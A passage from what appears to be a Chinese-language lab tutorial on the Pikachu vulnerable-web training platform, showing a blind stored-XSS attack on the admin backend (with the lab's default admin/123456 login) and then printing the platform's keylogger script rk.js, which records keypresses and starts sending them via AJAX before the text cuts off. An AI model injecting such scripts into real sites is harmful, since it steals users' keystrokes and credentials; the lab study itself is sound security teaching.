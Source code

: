 在 Pikachu 平台的 Cross-Site Scripting » XSS 之盲打菜单项下，攻击者提交恶意脚本代码：

![](https://img.wukaipeng.com/2023/1015-135414-image-20231015135414216.png)

当受害者登录后台：`http://YOUR_IP_ADDRESS:8081/vul/xss/xssblind/admin_login.php`（账号密码为：`admin/123456`）

可以看到我们的恶意脚本代码已经被执行了：

![](https://img.wukaipeng.com/2023/1015-135749-image-20231015135749281.png)

## 键盘记录

键盘记录是存储型的一种，将用户的键盘输入记录下来。

Pikachu 平台已经为我们提供了可用的键盘记录恶意脚本代码  `/var/www/html/pkxss/rkeypress/rk.js`：

```php
/**
 * Created by runner on 2018/7/8.
 */

function createAjax(){
    var request=false;
    if(window.XMLHttpRequest){
        request=new XMLHttpRequest();
        if(request.overrideMimeType){
            request.overrideMimeType("text/xml");
        }

    }else if(window.ActiveXObject){

        var versions=['Microsoft.XMLHTTP', 'MSXML.XMLHTTP', 'Msxml2.XMLHTTP.7.0','Msxml2.XMLHTTP.6.0','Msxml2.XMLHTTP.5.0', 'Msxml2.XMLHTTP.4.0', 'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP'];
        for(var i=0; i<versions.length; i++){
            try{
                request=new ActiveXObject(versions[i]);
                if(request){
                    return request;
                }
            }catch(e){
                request=false;
            }
        }
    }
    return request;
}

var ajax=null;
var xl="datax=";

function onkeypress() {
    var realkey = String.fromCharCode(event.keyCode);
    xl+=realkey;
    show();
}

document.onkeypress = onkeypress;

function show() {
    ajax = createAjax();
    ajax.onreadystatechange = function () {
        if (ajax.readyState == 4) {
            if (ajax.status == 200) {
                var data = ajax.responseText;
            } else {
```